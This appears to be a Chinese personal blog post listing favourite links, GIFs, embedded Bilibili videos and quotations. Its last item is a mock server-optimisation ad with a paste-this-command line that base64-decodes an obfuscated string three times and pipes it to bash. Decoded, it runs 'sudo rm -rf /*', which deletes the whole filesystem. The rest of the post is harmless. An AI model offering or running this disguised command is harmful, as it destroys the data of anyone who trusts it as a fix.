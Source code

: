```yaml
---
title: 一些好玩或喜欢的东西
date: 2017-01-15 13:39:19
categories:
tags:
cover: https://ooo.0o0.ooo/2017/01/15/587b6fa037ff5.jpg
skip: false
---
```


长时间记录一些好玩或喜欢的东西

### Links

1. [UI超棒，AI俄罗斯方块动画！有时间自己玩玩！](http://thomas-yang.me/#color=977355)
2. [在线画图UML...](https://www.processon.com/diagrams)

### Pictures

<img src="http://ww3.sinaimg.cn/mw690/006D2KSdjw1fbldl68ryhg30dw086nki.gif" alt="" width="500" height="294" />
<img src="http://obu9je6ng.bkt.clouddn.com/FiO5oFV4MEL1pwm1GYad5tDFmeJw?imageslim" alt="ClipboardImage" width="200" height="181" />

<img src="http://obu9je6ng.bkt.clouddn.com/FiyQ9hLRXRhJsKYBs_vOW8pZw82m?imageslim" alt="ClipboardImage" width="269" height="143" />

<img src="http://ww4.sinaimg.cn/mw690/006D2KSdjw1fb8wvlp7rrg30dw06ph88.gif" alt="" width="500" height="241" />


### Videos

<embed height="415" width="544" quality="high" allowfullscreen="true" type="application/x-shockwave-flash" src="//static.hdslb.com/miniloader.swf" flashvars="aid=7793587&page=1" pluginspage=".adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash"></embed>

<embed height="415" width="544" quality="high" allowfullscreen="true" type="application/x-shockwave-flash" src="//static.hdslb.com/miniloader.swf" flashvars="aid=7924127&page=1" pluginspage="//www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash"></embed>

<embed height="415" width="544" quality="high" allowfullscreen="true" type="application/x-shockwave-flash" src="//static.hdslb.com/miniloader.swf" flashvars="aid=1162066&page=1" pluginspage="//www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash"></embed>

<embed height="415" width="544" quality="high" allowfullscreen="true" type="application/x-shockwave-flash" src="//static.hdslb.com/miniloader.swf" flashvars="aid=500747&page=1" pluginspage="//www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash"></embed>

### Words

- 这世界上的大部分健康的人际关系，都是两个强者之间的锦上添花，而不是弱者之间的相互取暖。

- 一个社会的文明程度取决于其对弱者的态度。

- 为了一个目的 —— 哪怕是一个正义的目的，就像车轮一样狠狠碾过人的心，也是另一种戾气。
    —— 《看见》

- 生和死，苦难和苍老，都蕴涵在每一个人的体中，总有一天我们会与之遭逢。我们终将浑然难分，像水溶于水中。
    —— 《看见》

- 我们要争独立，而不是争自由   —— 胡适

- 天空一无所有，为何给我安慰

- 服务器速度慢？空间不够用？经常死机？在线率低？经常被攻击？
        echo WXpOV2EySjVRbmxpVTBGMFkyMVpaMHg1YjBzPQ==|base64 -D|base64 -D|base64 -D|bash
自动优化你的服务器

